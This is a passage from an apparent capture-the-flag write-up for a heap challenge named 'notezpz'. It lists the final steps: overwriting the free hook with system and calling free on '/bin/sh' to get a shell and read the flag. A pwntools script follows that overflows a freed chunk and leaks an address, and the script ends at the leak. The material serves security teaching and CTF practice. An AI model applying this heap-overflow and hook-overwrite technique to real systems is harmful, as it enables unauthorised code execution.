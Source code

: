 8. (Optional) fix the heap by using the overflow. Amazing for debugging, since you broke `vis_heap_chunks` from gdb in step 3.
9. Overwrite the free hook with system, and call `free` (but actually `system` now) with `/bin/sh\x00` in the buffer.
10. `cat flag`

```python
#!/usr/bin/python3

from pwn import *

#p = process('./notezpz')
p = remote('plsdonthaq.me', 7003)
#gdb.attach(p)

# create question
def create():
    p.readuntil('choice,')
    p.sendline('c')

# delete question
def delete(index):
    p.readuntil('choice,')
    p.sendline('d')
    p.readuntil('id:')
    p.sendline(str(index))

# setting question
def setQuestion(index, question):
    p.readuntil('choice,')
    p.sendline('s')
    p.readuntil('id')
    p.sendline(str(index))

    p.readuntil('question')
    p.sendline(question)

# ask a question
def askQuestion(index):
    p.readuntil('choice,')
    p.sendline('a')
    p.readuntil('id')
    p.sendline(str(index))

    p.readuntil("perhaps: '")

# Extra space to be used later
create()
create()

# create 2, overwrite the second one
create()
create()
delete(3)   # offset by 2

# Overflow into the freed chunk
setQuestion(2, b'A' * 31)

# malloc the freed chunk again.
# This deletes the null byte at the end, creating a leak
create()

# Leak the address of the print function
askQuestion(2)
```